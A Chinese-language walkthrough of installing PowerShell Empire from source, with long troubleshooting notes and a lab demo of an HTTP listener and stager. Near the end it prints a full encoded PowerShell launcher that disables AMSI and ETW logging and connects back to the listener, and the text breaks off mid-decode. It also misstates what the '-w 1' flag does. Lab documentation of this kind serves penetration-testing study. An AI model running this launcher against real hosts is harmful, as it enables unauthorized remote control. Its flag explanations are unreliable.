

# Powershell Empire

> [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire.git)
>
> [powershell-empire | Kali Linux Tools --- powershell 帝国| Kali Linux 工具](https://www.kali.org/tools/powershell-empire/)
>
> [PowerShell Empire 实战入门篇 - FreeBuf 网络安全行业门户](https://www.freebuf.com/sectool/158393.html)
>
> [Empire 2.5：PowerShell 渗透测试实战指南（上篇） - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/web/165925.html)

[EmpireProject/Empire: Empire is a PowerShell and Python post-exploitation agent. (github.com)](https://github.com/EmpireProject/Empire) 是一个渗透测试框架(`post-exploitation framework`), 它包含一个 Pure Powershell 2.0 的 Windows 代理和一个 Pure Python

---

- [Powershell Empire](#powershell-empire)
  - [安装](#安装)
    - [Github](#github)
      - [1.clone 仓库本体及相关依赖仓库](#1clone-仓库本体及相关依赖仓库)
      - [2. 切到稳定版本并安装](#2-切到稳定版本并安装)
      - [上线个机子验一下能不能用](#上线个机子验一下能不能用)
    - [Kali](#kali)
    - [Demo](#demo)
      - [拓扑](#拓扑)
      - [起 server](#起-server)
      - [起 Client](#起-client)
      - [新建一个 http listener](#新建一个-http-listener)
      - [执行命令以上线主机](#执行命令以上线主机)
  - [Starkiller](#starkiller)
  - [整体源码概述](#整体源码概述)
    - [调试](#调试)
    - [主程序入口](#主程序入口)
    - [Listener](#listener)

---

## 安装

### Github

> PS: `main` 分支反映了最新更改，可能并不总是稳定的。克隆存储库后，可以通过运行 `setup/checkout-latest-tag.sh` 脚本签出最新的稳定版本。

---

#### 1.clone 仓库本体及相关依赖仓库

```bash
git clone --recursive https://github.com/BC-SECURITY/Empire.git
```


上面的全是首次 clone 失败的 reference repo, 失败后会加入计划任务, 全 clone 一遍后会重新 clone 失败的仓库

如下即为重新 clone 成功了:


---

#### 2. 切到稳定版本并安装

```bash
cd Empire
./setup/checkout-latest-tag.sh
```


```bash
sudo ./setup/install.sh
```


中间会有个提示要不要装 `xar` 和 `bomutils` 的选项需要手动输入选择一下:


解压了一堆包:


然后开始


> 这里由于网络原因超时了 ↑, 然后后面恢复了:

然后应该是吧 xar 的目录列出来了:


然后提示了一堆需要 autoupdate:


---

然后似乎是在拿 gcc 编译 libxml, 报了一堆 warning, 应该不用管


---

编译 `xar`:


---

拉 `bomutils`:


---

然后会询问要不要装 `openjdk`:


---

装 C# agents 以及 modules


---

询问要不要装 `MinGW`:


得, 又是网络问题, 打个快照先, 然后重跑一遍安装脚本:


又是 xar


下面一堆目录和 warning 就不截图了, 然后接着是 OpenJDK:


然后是 `MinGW`:


最后又 package not found, enmmmmmm, 再重装一次吧:


> 得, 总是网络问题, 挂个代理再试一次吧...


看样子是成功了:


---

然后是检查 python 版本:


---

然后是装一些包, 不过似乎全失败了:


也许和代理有关系, 把代理下掉试试:


依旧不行:


记录一下失败的日志:


可以看到安装失败的包有:

```
pycparser
```

> [eliben/pycparser: :snake: Complete C99 parser in pure Python --- eliben/pycparser: :snake: 纯 Python 中的完整 C99 解析器 (github.com)](https://github.com/eliben/pycparser)

手动装一下试试:

```bash
pip install pycparser
```


手动装显示装好了, 不过重新运行脚本依旧会出错:


按照 `DUBusErrorResponse` 作为关键词进行检索, 似乎是 `poetry` 的问题

> [[已解决\] poetry install 命令安装依赖报错，无法安装部分依赖 · Issue #1217 · HibiKier/zhenxun_bot (github.com)](https://github.com/HibiKier/zhenxun_bot/issues/1217)
>
> [python - DBusErrorResponse while running poetry install - Stack Overflow --- python - 运行诗歌安装时的 DBusErrorResponse - VoidCC](https://stackoverflow.com/questions/75080993/dbuserrorresponse-while-running-poetry-install)

尝试直接 poetry add 看看:


检索该报错找到了如下信息:

> [KeyRingError: Failed to create the collection: Prompt dismissed.. · Issue #3012 · python-poetry/poetry --- KeyRingError：无法创建集合：提示已关闭..·问题#3012·python-poetry/poetry (github.com)](https://github.com/python-poetry/poetry/issues/3012)
>
> [Error: Unable to store the password for poetry-repository-pypi in the key ring: Failed to unlock the collection! · Issue #2692 · python-poetry/poetry --- 错误：无法在钥匙圈中存储诗歌存储库-pypi 的密码：无法解锁集合！ · 问题 #2692 · python-poetry/poetry (github.com)](https://github.com/python-poetry/poetry/issues/2692)
>
> [python poetry 1.0.0 private repo issue fix – Frank-Mich's Blog --- python 诗 1.0.0 私人回购问题修复 – Frank-Mich 的博客](https://blog.frank-mich.com/python-poetry-1-0-0-private-repo-issue-fix/)

两个报错最终都指向了 kering, 且都提到了同一种解决方案:

```bash
export PYTHON_KEYRING_BACKEND=keyring.backends.null.Keyring
```


再重新跑一遍安装脚本试试:


终于开始正常运行了:


终于成功装完了, 根据最后的提示重新加载下配置文件来启用 `nim`

```bash
source ~/.bashrc
```


> 这里又反复确认了下项目所在的 kali 用户目录以及 root 用户的 `.bashrc` 中的配置是否都能成功加载完成, 因为我不能确定到底是把配置写在那个用户下了, 个人认为应该是当前命令行的 root 用户, 翻了下两个文件, 确实是在 root 下面:
>
> 

> [Nim - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/wiki/Nim)
>
> **Nim**是一个[指令式](https://zh.wikipedia.org/wiki/指令式編程)、[通用](https://zh.wikipedia.org/wiki/通用编程语言)、[多范式](https://zh.wikipedia.org/wiki/多重编程范式)、[静态类型](https://zh.wikipedia.org/wiki/静态类型)、[编译型](https://zh.wikipedia.org/wiki/編譯語言)的[编程语言](https://zh.wikipedia.org/wiki/编程语言), 设计目标是像[C](https://zh.wikipedia.org/wiki/C语言)一样快速，像[Python](https://zh.wikipedia.org/wiki/Python)一样有表达力，并像[Lisp](https://zh.wikipedia.org/wiki/Lisp)一样有扩展性。

---

接下来起一下 server client 试试


又有报错, 不管是包还是网络, 先解决第一个问题:

```
[ERROR]: advanced_reporting failed to initialize: No module named 'stix2'
```

看了下这是 python 的一个包, 尝试拿 poetry 装一下这个库:


看样子还是能成功装上的, 再起一遍 server 试试

> 由于前面还看到下载失败啥的, 所以还是先挂下代理(


看样子似乎是正常启动了

---

再起一下 client:


---

总算是成功通过源码装好了, 嫌费劲的话还是直接 apt 装就行了:

```bash
sudo apt install powershell-empire
```

---

#### 上线个机子验一下能不能用

具体步骤可以参阅下面的 [Demo 章节](#Demo)

在生成上线命令时报错了:


不过看上去只是拷贝没成功而已, 通过报错提示指向的网页: [Welcome to Pyperclip’s documentation! — Pyperclip 1.5 documentation --- 欢迎来到 Pyperclip 的文档！ — Pyperclip 1.5 文档](https://pyperclip.readthedocs.io/en/latest/index.html#not-implemented-error) 找到了解决方案:


```bash
sudo apt-get install xsel # to install the xsel utility.
sudo apt-get install xclip # to install the xclip utility.
pip install gtk # to install the gtk Python module.
pip install PyQt4 # to install the PyQt4 Python module.
```

相应的进行处理

```bash
apt install xsel
```


```bash
apt install xclip
```


```bash
# 如下步骤操作后发现是不需要的
export PYTHON_KEYRING_BACKEND=keyring.backends.null.Keyring
poetry add gtk
poetry add PyQt4
```


看到这里报错没找到就去翻了下为什么, 然后发现 gtk py 包的全名是 pygtk, 而且只支持 python2, 而 pyqt 已经出到 6 了, 感觉也和剪贴板没啥关系, 就不装了

再试一下生成上线命令发现还是一样的报错, 猜测可能是没加载到啥配置之类的, 重启了下主机

重启完主机后起 server 的时候发现连不上数据库, 还需要手动启动下 mysql


以及需要等 Starkiller 启动才能起 client, 否则会连不上


这就比较头疼了, 要拉更新, 太慢了, 挂下代理吧

```bash
export https_proxy=http://127.0.0.1:7890
```

然后就能成功运行了


不过这个代理感觉可能会影响部分功能, 下掉再重启试试:

```bash
unset https_proxy
```


成功起来了, 不过感觉总是这样的话并不是个好办法, 看看有没有啥参数能跳过 Starkiller 更新, 循着 `./ps-empire` 一步步找找:


指向 `empire.py` 主程序:


调用了 `empire.empire.server.run(args)` 来启动 server


函数全文如下:

```python
def run(args):
    setup_logging(args)
    check_submodules()
    check_recommended_configuration()

    if not args.restport:
        args.restport = 1337
    else:
        args.restport = int(args.restport[0])

    if not args.restip:
        args.restip = "0.0.0.0"
    else:
        args.restip = args.restip[0]

    if args.version:
        # log to stdout instead of stderr
        print(empire.VERSION)
        sys.exit()

    elif args.reset:
        choice = input(
            "\x1b[1;33m[>] Would you like to reset your Empire Server instance? [y/N]: \x1b[0m"
        )
        if choice.lower() == "y":
            reset()

        sys.exit()

    else:
        base.startup_db()
        global main

        # Calling run more than once, such as in the test suite
        # Will generate more instances of MainMenu, which then
        # causes shutdown failure.
        if main is None:
            main = empire.MainMenu(args=args)

        if not os.path.exists("./empire/server/data/empire-chain.pem"):
            log.info("Certificate not found. Generating...")
            subprocess.call("./setup/cert.sh")
            time.sleep(3)

        from empire.server.api import app

        app.initialize(secure=args.secure_api, ip=args.restip, port=args.restport)

    sys.exit()

```

可惜的是没有参数能控制是否更新 Starkiller, 继续向下看 `app.initialize`


根据 log 信息与代码定位到更新 Starkiller 的代码在 `sync_starkiller`:


找到了:


配置在调用 sync_starkiller 传入了, 在捋一下来源找到了如下文件：


看样子还是可以传入参配置文件控制的, 默认的配置在这里:


如果要自定义的话可以拷贝一份默认配置, 例如:


这样就不用更新了, 不过直接改默认配置更方便, 之后需要更新的时候可以再改回来

---

然后在 client 端成功生成了上线命令:


可以看到能成功复制了

> 不过后续使用的时候发现有时又不能复制了, 又是一样的报错, 感觉有可能是因为我 ssh 连上去之后拷贝要跨机子所以报错了? 不过反正也不影响, 直接手动拷贝也可以

---

上线个机子试试:


---

### Kali

Kali 上可以直接通过 `apt` 安装 `powershell-empire`

```bash
sudo apt install powershell-empire
```

---

### Demo

> [PBSC CyberWeek 2022 PowerShell Empire Demo - YouTube](https://www.youtube.com/watch?v=wsSox64GqIU&t=635s)

---

#### 拓扑



---

#### 起 server

```>bash
powershell-empire server
```

> 
>
> 
>
> 
>
> 
>
> 

---

#### 起 Client

新开一个 bash 起 client

```bash
powershell-empire client
```

> 
>
> 
>
> 
>
> ---

---

#### 新建一个 http listener

起一个 http listener

```bash
uselistener http
```

> 

这里可以看到, 默认情况下 Host 和 BindIP 都绑定的本地, 这里保持该默认配置, 然后设置下 Port

```bash
# Set Port
set Port 9090
```

> 

```bash
# execute 以使用此 listener
execute
```

> 

```bash
# stager
usestager multi_launcher
```

> 

可以看到 Language 默认为 powershell, 这里再设置一下 listener 为刚才创建的 http listener 然后执行

```bash
set listener http
execute
```

> 
>
> > PS: [+] New agent xxx checked in 那里是后面主机上线的提示, 刚执行完 execute 是不会出现的

上线命令如下:

```powershell
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBlAHQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdAB2AGEAbAB1AGUAKAAkAE4AdQBsAGwALAAkAHQAcgB1AGUAKQA7AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBFAHYAZQBuAHQAaQBuAGcALgBFAHYAZQBuAHQAUAByAG8AdgBpAGQAZQByAF0ALgBHAGUAdABGAGkAZQBsAGQAKAAnAG0AXwBlAG4AYQBiAGwAZQBkACcALAAnAE4AbwBuAFAAdQBiAGwAaQBjACwASQBuAHMAdABhAG4AYwBlACcAKQAuAFMAZQB0AFYAYQBsAHUAZQAoAFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBUAHIAYQBjAGkAbgBnAC4AUABTAEUAdAB3AEwAbwBnAFAAcgBvAHYAaQBkAGUAcgAnACkALgBHAGUAdABGAGkAZQBsAGQAKAAnAGUAdAB3AFAAcgBvAHYAaQBkAGUAcgAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAEcAZQB0AFYAYQBsAHUAZQAoACQAbgB1AGwAbAApACwAMAApADsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQB4AEEARABBAEEATQBBAEEAdQBBAEQARQBBAEwAZwBBAHgAQQBDADQAQQBNAFEAQQB6AEEARABZAEEATwBnAEEANQBBAEQAQQBBAE8AUQBBAHcAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAGwAbwBnAGkAbgAvAHAAcgBvAGMAZQBzAHMALgBwAGgAcAAnADsAJAB3AGMALgBIAGUAYQBkAGUAcgBzAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJAB3AGMALgBQAHIAbwB4AHkAPQBbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5ADsAJAB3AGMALgBQAHIAbwB4AHkALgBDAHIAZQBkAGUAbgB0AGkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AQwByAGUAZABlAG4AdABpAGEAbABDAGEAYwBoAGUAXQA6ADoARABlAGYAYQB1AGwAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAcwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAB3AGMALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABCAHkAdABlAHMAKAAnAEgAdQB2ACwAMwBnAHQAcwBjAH0AIwBfAEUAOgBmAEYAWAB3AG4AMgBiAFUAUABWAHwAaQBNAGUAMAArADUAUgAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwB1AG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBiAHgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAYwBIAEcAQQBmAGQATABaAEQAQwBFAHQATABNAEsAPQBsAEwAcQA4AFUAdwBpAEUAdQB6AHYASQBRAEQANABqADcAcAA2AEkASgBzAGgAaQBpADEARQA9ACIAKQA7ACQAZABhAHQAYQA9ACQAdwBjAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAkAHMAZQByACsAJAB0ACkAOwAkAGkAdgA9ACQAZABhAHQAYQBbADAALgAuADMAXQA7ACQAZABhAHQAYQA9ACQAZABhAHQAYQBbADQALgAuACQAZABhAHQAYQAuAGwAZQBuAGcAdABoAF0AOwAtAGoAbwBpAG4AWwBDAGgAYQByAFsAXQBdACgAJgAgACQAUgAgACQAZABhAHQAYQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA
```

- `powershell`：表示调用 PowerShell 程序。
- `-noP`：表示不加载配置文件。包括启动时加载的个人配置文件（Profile）和系统级别的配置文件。使用此参数可以在启动 PowerShell 时跳过配置文件的加载，加快启动速度。
- `-sta`：`Single Threaded Apartment`表示使用单线程的会话模式。
- `-w 1`：等待指定的时间（以秒为单位）后自动退出 PowerShell。在这里，`-w 1` 表示等待 1 秒后自动退出 PowerShell。
- `-enc`：表示后面跟着的是一个 Base64 编码的字符串，需要解码后执行。

> ```base64
> SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBlAHQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdAB2AGEAbAB1AGUAKAAkAE4AdQBsAGwALAAkAHQAcgB1AGUAKQA7AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBFAHYAZQBuAHQAaQBuAGcALgBFAHYAZQBuAHQAUAByAG8AdgBpAGQAZQByAF0ALgBHAGUAdABGAGkAZQBsAGQAKAAnAG0AXwBlAG4AYQBiAGwAZQBkACcALAAnAE4AbwBuAFAAdQBiAGwAaQBjACwASQBuAHMAdABhAG4AYwBlACcAKQAuAFMAZQB0AFYAYQBsAHUAZQAoAFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBUAHIAYQBjAGkAbgBnAC4AUABTAEUAdAB3AEwAbwBnAFAAcgBvAHYAaQBkAGUAcgAnACkALgBHAGUAdABGAGkAZQBsAGQAKAAnAGUAdAB3AFAAcgBvAHYAaQBkAGUAcgAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAEcAZQB0AFYAYQBsAHUAZQAoACQAbgB1AGwAbAApACwAMAApADsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQB4AEEARABBAEEATQBBAEEAdQBBAEQARQBBAEwAZwBBAHgAQQBDADQAQQBNAFEAQQB6AEEARABZAEEATwBnAEEANQBBAEQAQQBBAE8AUQBBAHcAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAGwAbwBnAGkAbgAvAHAAcgBvAGMAZQBzAHMALgBwAGgAcAAnADsAJAB3AGMALgBIAGUAYQBkAGUAcgBzAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJAB3AGMALgBQAHIAbwB4AHkAPQBbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5ADsAJAB3AGMALgBQAHIAbwB4AHkALgBDAHIAZQBkAGUAbgB0AGkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AQwByAGUAZABlAG4AdABpAGEAbABDAGEAYwBoAGUAXQA6ADoARABlAGYAYQB1AGwAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAcwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAB3AGMALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABCAHkAdABlAHMAKAAnAEgAdQB2ACwAMwBnAHQAcwBjAH0AIwBfAEUAOgBmAEYAWAB3AG4AMgBiAFUAUABWAHwAaQBNAGUAMAArADUAUgAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwB1AG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBiAHgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAYwBIAEcAQQBmAGQATABaAEQAQwBFAHQATABNAEsAPQBsAEwAcQA4AFUAdwBpAEUAdQB6AHYASQBRAEQANABqADcAcAA2AEkASgBzAGgAaQBpADEARQA9ACIAKQA7ACQAZABhAHQAYQA9ACQAdwBjAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAkAHMAZQByACsAJAB0ACkAOwAkAGkAdgA9ACQAZABhAHQAYQBbADAALgAuADMAXQA7ACQAZABhAHQAYQA9ACQAZABhAHQAYQBbADQALgAuACQAZABhAHQAYQAuAGwAZQBuAGcAdABoAF0AOwAtAGoAbwBpAG4AWwBDAGgAYQByAFsAXQBdACgAJgAgACQAUgAgACQAZABhAHQAYQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA
> ```
>
> 上述 base64 解码后得到:
>
> ```
> "I\u0000f\u0000(\u0000$\u0000P\u0000S\u0000V\u0000e\u0000r\u0000s\u0000i\u0000o\u0000n\u0000T\u0000a\u0000b\u0000l\u0000e\u0000.\u0000P\u0000S\u0000V\u0000e\u0000r\u0000s\u0000i\u0000o\u0000n\u0000.\u0000M\u0000a\u0000j\u0000o\u0000r\u0000 \u0000-\u0000g\u0000e\u0000 \u00003\u0000)\u0000{\u0000$\u0000R\u0000e\u0000f\u0000=\u0000[\u0000R\u0000e\u0000f\u0000]\u0000.\u0000A\u0000s\u0000s\u0000e\u0000m\u0000b\u0000l\u0000y\u0000.\u0000G\u0000e\u0000t\u0000T\u0000y\u0000p\u0000e\u0000(\u0000'\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000M\u0000a\u0000n\u0000a\u0000g\u0000e\u0000m\u0000e\u0000n\u0000t\u0000.\u0000A\u0000u\u0000t\u0000o\u0000m\u0000a\u0000t\u0000i\u0000o\u0000n\u0000.\u0000A\u0000m\u0000s\u0000i\u0000U\u0000t\u0000i\u0000l\u0000s\u0000'\u0000)\u0000;\u0000$\u0000R\u0000e\u0000f\u0000.\u0000G\u0000e\u0000t\u0000F\u0000i\u0000e\u0000l\u0000d\u0000(\u0000'\u0000a\u0000m\u0000s\u0000i\u0000I\u0000n\u0000i\u0000t\u0000F\u0000a\u0000i\u0000l\u0000e\u0000d\u0000'\u0000,\u0000'\u0000N\u0000o\u0000n\u0000P\u0000u\u0000b\u0000l\u0000i\u0000c\u0000,\u0000S\u0000t\u0000a\u0000t\u0000i\u0000c\u0000'\u0000)\u0000.\u0000S\u0000e\u0000t\u0000v\u0000a\u0000l\u0000u\u0000e\u0000(\u0000$\u0000N\u0000u\u0000l\u0000l\u0000,\u0000$\u0000t\u0000r\u0000u\u0000e\u0000)\u0000;\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000D\u0000i\u0000a\u0000g\u0000n\u0000o\u0000s\u0000t\u0000i\u0000c\u0000s\u0000.\u0000E\u0000v\u0000e\u0000n\u0000t\u0000i\u0000n\u0000g\u0000.\u0000E\u0000v\u0000e\u0000n\u0000t\u0000P\u0000r\u0000o\u0000v\u0000i\u0000d\u0000e\u0000r\u0000]\u0000.\u0000G\u0000e\u0000t\u0000F\u0000i\u0000e\u0000l\u0000d\u0000(\u0000'\u0000m\u0000_\u0000e\u0000n\u0000a\u0000b\u0000l\u0000e\u0000d\u0000'\u0000,\u0000'\u0000N\u0000o\u0000n\u0000P\u0000u\u0000b\u0000l\u0000i\u0000c\u0000,\u0000I\u0000n\u0000s\u0000t\u0000a\u0000n\u0000c\u0000e\u0000'\u0000)\u0000.\u0000S\u0000e\u0000t\u0000V\u0000a\u0000l\u0000u\u0000e\u0000(\u0000[\u0000R\u0000e\u0000f\u0000]\u0000.\u0000A\u0000s\u0000s\u0000e\u0000m\u0000b\u0000l\u0000y\u0000.\u0000G\u0000e\u0000t\u0000T\u0000y\u0000p\u0000e\u0000(\u0000'\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000M\u0000a\u0000n\u0000a\u0000g\u0000e\u0000m\u0000e\u0000n\u0000t\u0000.\u0000A\u0000u\u0000t\u0000o\u0000m\u0000a\u0000t\u0000i\u0000o\u0000n\u0000.\u0000T\u0000r\u0000a\u0000c\u0000i\u0000n\u0000g\u0000.\u0000P\u0000S\u0000E\u0000t\u0000w\u0000L\u0000o\u0000g\u0000P\u0000r\u0000o\u0000v\u0000i\u0000d\u0000e\u0000r\u0000'\u0000)\u0000.\u0000G\u0000e\u0000t\u0000F\u0000i\u0000e\u0000l\u0000d\u0000(\u0000'\u0000e\u0000t\u0000w\u0000P\u0000r\u0000o\u0000v\u0000i\u0000d\u0000e\u0000r\u0000'\u0000,\u0000'\u0000N\u0000o\u0000n\u0000P\u0000u\u0000b\u0000l\u0000i\u0000c\u0000,\u0000S\u0000t\u0000a\u0000t\u0000i\u0000c\u0000'\u0000)\u0000.\u0000G\u0000e\u0000t\u0000V\u0000a\u0000l\u0000u\u0000e\u0000(\u0000$\u0000n\u0000u\u0000l\u0000l\u0000)\u0000,\u00000\u0000)\u0000;\u0000}\u0000;\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0